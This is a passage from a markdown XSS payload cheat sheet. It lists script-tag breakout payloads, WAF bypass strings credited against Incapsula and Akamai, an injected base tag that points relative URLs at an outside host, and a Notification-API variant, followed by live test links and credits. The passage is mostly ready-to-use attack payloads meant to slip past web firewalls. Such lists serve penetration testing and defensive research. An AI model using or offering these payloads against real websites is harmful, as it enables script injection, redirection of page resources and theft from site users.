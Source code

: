 ```javascript
</script><svg><script>alert(1)-%26apos%3B
```

Live example by @brutelogic - [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?c1=</script><svg><script>alert(1)-%26apos%3B)

### Incapsula WAF Bypass - 8th march

```javascript
anythinglr00</script><script>alert(document.domain)</script>uxldz

anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
```

### Akamai WAF bypass by @zseano - 18th june

```javascript
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

## More fun

This section will be used for the "fun/interesting/useless" stuff.

Use notification box instead of an alert - by [@brutelogic](https://twitter.com/brutelogic)
Note : it requires user permission

```javascript
Notification.requestPermission(x=>{new(Notification)(1)})
```

Try here : [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?c3=%27;Notification.requestPermission(x=>%7Bnew(Notification)(1)%7D)//)

## Thanks to

- [Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)
- tbm
- [(Relative Path Overwrite) RPO XSS - Infinite Security](http://infinite8security.blogspot.com/2016/02/welcome-readers-as-i-promised-this-post.html)
- [RPO TheSpanner](http://www.thespanner.co.uk/2014/03/21/rpo/)
- [RPO Gadget - innerthmtl](http://blog.innerht.ml/rpo-gadgets/)
- [Relative Path Overwrite - Detectify](http://support.detectify.com/customer/portal/articles/2088351-relative-path-overwrite)
- [XSS ghettoBypass - d3adend](http://d3adend.org/xss/ghettoBypass)
- [XSS without HTML: Client-Side Template Injection with AngularJS](http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html)
- [XSSING WEB PART - 2 - Rakesh Mane](http://blog.rakeshmane.com/2017/08/xssing-web-part-2.html)
- [Making an XSS triggered by CSP bypass on Twitter. @tbmnull](https://medium.com/@tbmnull/making-an-xss-triggered-by-csp-bypass-on-twitter-561f107be3e5)
- [Ways to alert(document.domain) - @tomnomnom](https://gist.github.com/tomnomnom/14a918f707ef0685fdebd90545580309)
